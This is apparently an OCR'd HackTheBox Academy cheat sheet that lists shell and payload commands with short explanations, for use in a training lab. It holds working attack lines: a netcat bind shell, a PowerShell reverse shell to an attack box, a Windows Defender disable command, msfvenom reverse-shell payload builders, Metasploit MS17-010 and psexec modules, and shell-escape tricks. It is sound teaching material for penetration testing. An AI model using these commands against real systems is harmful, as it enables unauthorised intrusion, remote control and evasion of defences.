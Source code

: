 xfreerdp /v:10.129.x.x /u:htb-student /p:HTB_@cademy_stdnt!	CLI-based tool used to connect to a Windows target using the Remote Desktop Protocol
env	Works with many different command language interpreters to discover the environmental variables of a system. This is a great way to find out which shell language is in use
sudo nc -lvnp <port #>	Starts a netcat listener on a specified port
nc -nv <ip address of computer with listener started><port being listened on>	Connects to a netcat listener at the specified IP address and port
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f	Uses netcat to bind a shell (/bin/bash) the specified IP address and port. This allows for a shell session to be served remotely to anyone connecting to the computer this command has been issued on
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"	Powershell one-liner used to connect back to a listener that has been started on an attack box
Set-MpPreference -DisableRealtimeMonitoring $true	Powershell command using to disable real time monitoring in Windows Defender
use exploit/windows/smb/psexec	Metasploit exploit module that can be used on vulnerable Windows system to establish a shell session utilizing smb & psexec
shell	Command used in a meterpreter shell session to drop into a system shell
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > nameoffile.elf	MSFvenom command used to generate a linux-based reverse shell stageless payload
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > nameoffile.exe	MSFvenom command used to generate a Windows-based reverse shell stageless payload
msfvenom -p osx/x86/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f macho > nameoffile.macho	MSFvenom command used to generate a MacOS-based reverse shell payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.113 LPORT=443 -f asp > nameoffile.asp	MSFvenom command used to generate a ASP web reverse shell payload
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f raw > nameoffile.jsp	MSFvenom command used to generate a JSP web reverse shell payload
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f war > nameoffile.war	MSFvenom command used to generate a WAR java/jsp compatible web reverse shell payload
use auxiliary/scanner/smb/smb_ms17_010	Metasploit exploit module used to check if a host is vulnerable to ms17_010
use exploit/windows/smb/ms17_010_psexec	Metasploit exploit module used to gain a reverse shell session on a Windows-based system that is vulnerable to ms17_010
use exploit/linux/http/rconfig_vendors_auth_file_upload_rce	Metasploit exploit module that can be used to optain a reverse shell on a vulnerable linux system hosting rConfig 3.9.6
python -c 'import pty; pty.spawn("/bin/sh")'	Python command used to spawn an interactive shell on a linux-based system
/bin/sh -i	Spawns an interactive shell on a linux-based system
perl —e 'exec "/bin/sh";'	Uses perl to spawn an interactive shell on a linux-based system
ruby: exec "/bin/sh"	Uses ruby to spawn an interactive shell on a linux-based system
Lua: os.execute('/bin/sh')	Uses Lua to spawn an interactive shell on a linux-based system
awk 'BEGIN {system("/bin/sh")}'	Uses awk command to spawn an interactive shell on a linux-based system
find / -name nameoffile 'exec /bin/awk 'BEGIN {system("/bin/sh")}' \;	Uses find command to spawn an interactive shell on a linux-based system
find . -exec /bin/sh \; -quit	An alternative way to use the find command to spawn an interactive shell on a linux-based system
vim -c ':!/bin/sh'	Uses the text-editor VIM to spawn an interactive shell. Can be used to escape "jail-shells"
ls -la <path/to/fileorbinary>	Used to list files & directories on a linux-based system and shows the permission for each file in the chosen directory. Can be used to look for binaries that we have permission to execute
sudo -l	Displays the commands that the currently logged on user can run as sudo
/usr/share/webshells/laudanum	Location of laudanum webshells on ParrotOS and Pwnbox
/usr/share/nishang/Antak-WebShell	Location of Antak-Webshell on Parrot OS and Pwnbox
